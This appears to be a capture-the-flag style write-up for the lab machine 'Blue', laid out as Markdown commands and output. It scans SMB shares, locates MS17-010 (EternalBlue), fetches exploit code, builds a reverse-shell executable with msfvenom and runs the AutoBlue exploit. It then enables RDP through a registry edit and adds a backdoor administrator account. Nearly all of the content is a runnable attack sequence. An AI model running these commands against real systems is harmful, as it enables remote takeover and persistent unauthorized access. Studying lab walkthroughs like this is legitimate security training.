







# Blue

## scanning
```bash
furious 10.10.10.40
nmap -sC -sV -p 135,139,445,49154,49153,49152,49156,49155 -Pn -n 10.10.10.40 -oN targeted
```


## 445

### smclient
```bash
smbclient -N -L //10.10.10.40

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk      
	Users           Disk      
SMB1 disabled -- no workgroup available
```

### smbmap
```bash
smbmap -H 10.10.10.40 -u anonymous
[+] Guest session   	IP: 10.10.10.40:445	Name: 10.10.10.40                                       
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	NO ACCESS	Remote IPC
	Share                                             	READ ONLY	
	Users                                             	READ ONLY
```

### nmap .nse
```bash
nmap -p445 10.10.10.40 --script="smb-vuln*" -Pn -oN nmap_smb.txt
```


## searchsploit MS17-010

```bash
searchsploit MS17-010
searchsploit -m windows/remote/42315.py
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -o mysmb.py

msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=5555 -f exe > shell.exe
```

we edit the exploit like this




Done but...
try harder!!!

## autoblue MS17-010
```bash
git clone https://github.com/3ndG4me/AutoBlue-MS17-010
cd AutoBlue-MS17-010/

# checker
python eternal_checker.py 10.10.10.40
```

```bash
cd shellcode
./shell_prep.sh
```



```bash
python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin
```


## Reg add RDP

```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

## Add user as administrator

```cmd
net user gato 12345 /add
net localgroup administrators gato /add
```

## Connect to the victim using rdp

```bash
rdesktop 10.10.10.40
```